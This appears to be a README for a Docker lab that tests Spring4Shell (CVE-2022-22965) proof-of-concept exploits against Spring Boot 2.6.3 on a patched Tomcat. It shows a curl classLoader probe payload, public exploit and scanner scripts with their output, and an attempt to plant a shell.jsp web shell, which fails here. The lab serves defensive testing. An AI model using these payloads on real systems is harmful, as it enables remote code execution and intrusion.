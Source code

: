 Lab to test poc exploit on vulnerable spring boot version 2.6.3 deployed on fixed tomcat version 8.5.78 with open-jdk 11

Tomcat version: 8.5.78
openJDK: 11
Spring Boot: 2.6.3

How to deploy?

```
docker build . -t sp4s-tomcat8.5.73-jdk11-spb2.6.3 && docker run -p 8001:8080 sp4s-tomcat8.5.73-jdk11-spb2.6.3
```

You can access the application at http://localhost:8001/helloworld/greeting

Test if application is vulnerable

## Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
$ curl -i http://localhost:8001/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0
HTTP/1.1 400 
Content-Type: application/json
Date: Sun, 17 Apr 2022 19:55:40 GMT
Connection: close
Content-Length: 110

{"timestamp":"2022-04-17T19:55:40.760+00:00","status":400,"error":"Bad Request","path":"/helloworld/greeting"}
```

400 response indicates that application is vulnerable but is it exploitable let's try to exploit it using another exploit poc


## POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC
```bash
$ python exploit.py --url http://localhost:8001/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 500
[*] Modifying Log Configurations
[*] Response code: 500
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 500
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost.com:8001/shell.jsp?cmd=id
```

It gives 500 error when trying to upload the shell because of fixed tomcat version.


### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
python spring4shell-scan.py --url http://localhost:8001/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8001/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8001/helloworld/greeting | PAYLOAD: class.module.classLoader[ol38bo1]=ol38bo1
[!!!] Target Affected (CVE-2022-22965)
[!] Total Vulnerable Hosts: 1
[!] http://localhost:8001/helloworld/greeting
```

Again similar results exploit poc suggests application is vulnerable which it is but because tomcat version is fixed exploit didn't worked

